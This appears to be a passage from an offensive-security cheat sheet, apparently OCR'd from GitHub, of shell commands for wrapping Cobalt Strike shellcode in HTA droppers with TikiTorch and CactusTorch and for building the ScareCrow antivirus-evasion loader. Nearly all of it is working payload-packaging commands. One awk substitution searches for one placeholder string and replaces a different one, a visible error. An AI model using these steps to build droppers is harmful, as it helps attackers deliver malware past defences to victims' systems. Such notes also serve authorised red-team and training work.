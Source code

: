 			## Save as x64.exe

# HTA TikiTorch https://github.com/rasta-mouse/TikiTorch
	## !! Only supports x86
	## base64 the x86 CobaltStrike shellcode
base64 -w0 /root/payloads/x86_raw.bin > /root/payloads/x86_raw_bin.b64
	## Insert into tiki_blank.hta template
		## Manual copy/paste:
xclip -selection clipboard < <file/to/copy/to/clipboard>
subl /root/payloads/tiki_blank.hta
		## Replace the "insert base64 payload here" string with b64 output, keep the quotes
		## Let bash help:
awk 'FNR==NR{s=(!s)?$0:s RS $0;next} /insert base64 payload here/{sub(/insert encrypted payload here/, s)} 1' /root/payloads/x86_raw_bin.b64 /root/payloads/tiki_blank.hta > /root/payloads/tki.hta

# HTA CACTUSTORCH https://github.com/mdsecactivebreach/CACTUSTORCH
	## More reading on CactusTorch: https://www.mdsec.co.uk/2017/07/payload-generation-with-cactustorch/
	## !! Only supports x86
	## base64 the x86 CobaltStrike shellcode
base64 -w0 /root/payloads/x86_raw.bin > /root/payloads/x86_raw_bin.b64
	## Insert b64 output into the "cs" variable in cactustorch-template.hta
		## Manual copy/paste:
xclip -selection clipboard < <file/to/copy/to/clipboard>
subl /root/payloads
		## Let bash help:
awk 'FNR==NR{s=(!s)?$0:s RS $0;next} /insert base64 payload here/{sub(/insert base64 payload here/, s)} 1' /root/payloads/x86_raw_bin.b64 /root/payloads/cactus_blank.hta > /root/payloads/cactus.hta

# EXE Scarecrow https://github.com/optiv/ScareCrow
	## !! Only supports x64
	## Install dependencies:
cd /root/tools
git clone https://github.com/optiv/ScareCrow.git
cd ScareCrow
go get && go build
	## !! If dependencies are missing, try:
apt install -y openssl osslsigncode mingw-w64